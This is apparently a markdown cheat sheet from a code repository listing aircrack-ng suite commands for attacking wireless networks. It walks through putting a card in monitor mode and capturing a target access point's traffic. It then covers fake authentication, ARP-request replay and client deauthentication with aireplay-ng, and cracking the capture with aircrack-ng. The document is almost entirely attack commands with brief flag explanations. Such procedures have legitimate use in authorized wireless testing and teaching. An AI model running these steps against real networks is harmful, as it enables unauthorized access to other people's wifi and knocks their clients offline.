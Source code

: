 # Wireless Vulnerablities
## overview of tools 
### aircrack-ng  
##### change wifi card from promiscuous to monitor mode.  
1. `ifconfig`  
2. `ifconfig wlan0 down`  
3. `iwconfig wlan0 mode monitor`  
4. `ifconfig wlan0 up`  
##### check airmon-ng is good to go
1. `airmon-ng check wlan0`  
2. kill processes that are running.  `kill NetworkManager`  
##### run airodump-ng
1. `airodump-ng wlan0`  
2. `airodump-ng --channel 1 --bssid 12:34:45:45:67:80 --write dump.pca wlan0`  
3. `sudo aireplay-ng -1 0 -e <target_essid> -a 00:09:5B:D7:43:A8 -h MY:MA:CA:DD:RE:SS <interface>`  its either no mac filtering or mac filtering  
##### No MAC filtering  
--- `sudo aireplay-ng -3 -b 00:09:5B:D7:43:A8 -h MY:MA:CA:DD:RE:SS <interface>`  -3... Standard ARP-request replay. -b... MAC address of target access point. -h... MAC address of your choice.  
##### MAC filtering 
-- `sudo aireplay-ng -0 5 -a 00:09:5B:D7:43:A8 -c 00:00:00:00:00:00 <interface>`  -0... Number of deauthentication attempts. -a... MAC address of target access point.  -c... Client MAC address.
4. `sudo aireplay-ng -3 -b 00:09:5B:D7:43:A8 -h 00:00:00:00:00:00 <interface>`  -3... Standard ARP-request replay. -b... MAC address of target access point. -h... Client MAC address.  
##### Decryption with "aircrack-ng" & "aircrack-ptw"  
1. `sudo aircrack-ng <file_name>.cap`  
2. `./aircrack-ptw <file_name>.cap`  
[Aircrack-ng](http://aircrack-ng.org/doku.php?id=aircrack-ng)
